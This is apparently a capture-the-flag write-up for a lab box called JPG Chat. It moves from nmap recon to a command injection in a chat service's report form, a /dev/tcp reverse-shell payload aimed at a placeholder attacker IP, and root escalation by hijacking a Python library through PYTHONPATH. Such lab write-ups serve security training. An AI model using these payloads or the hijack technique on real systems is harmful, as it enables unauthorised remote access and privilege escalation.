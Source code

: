 

# JPG Chat

We'll start with our usual nmap scan:

```bash
$ sudo nmap 10.10.85.243 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

Select running services with

```bash
$ cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o
```

Results:

[x] 22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)

[x] ]3000/tcp open  ppp?    syn-ack ttl 63

Visiting http://10.10.85.243:3000/ gives us a message:

```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

We'll use the following Google dork:

> jpgchat inurl:github

To find the [Github link](https://github.com/Mozzie-jpg/JPChat).

After breefly reviewing the code, we can spot a vulnerable piece:

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
    ## Command injection!
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

```

So, fire up a netcat listener:

```bash
$ nc -lvnp 8080
```
Next, connect to the chat and use a reverse shell as your name:

```bash
$ nc 10.10.85.243 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
0<&196;exec 196<>/dev/tcp/$ATTACKER_IP_GOES_HERE/8080; sh <&196 >&196 2>&196;echo 'aaa'
your report:
0<&196;exec 196<>/dev/tcp/$ATTACKER_IP_GOES_HERE/8080; sh <&196 >&196 2>&196;echo 'aaa'
```

Upgrade the shell:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'

$ Ctrl+Z

$ stty raw -echo

$ fg (And hit Enter twice)
```

in your machine do:

```bash
$ echo $TERM
```

And use the value in the following command on the victim machine:

```bash
$ export TERM=$THE_VALUE_GOES_HERE

$ export SHELL=bash
```

You can read about upgrading shells [in this blog](https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2)

The ***user*** flag is under /home/wes/user.txt

## *Root flag*

First, let's find out if we can run anything as root:

```
$ sudo -l
```

Result:

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

Ok, let's checkout the file:

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

I advise you to checkout this [article](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

We see that we can manipulate the path where python searches for libraries.
So navigate to ***/tmp*** and write the following exploit:

```bash
# this file is empty
$ touch __init__.py

$ nano compare.py
```

With this content:

```python
import os;

class Exploit():
	def __init__(self, Str):
		self.Str = Str;

def Str(a, b, c):
	print("Hiiiijaaackeeed");
	os.setuid(0);
	os.setgid(0);
	os.system('/bin/bash');

compare = Exploit(Str);

```

Then, exploit it like this:

```bash
$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/development/test_module.py
```

The flag is under ***/root/root.txt***
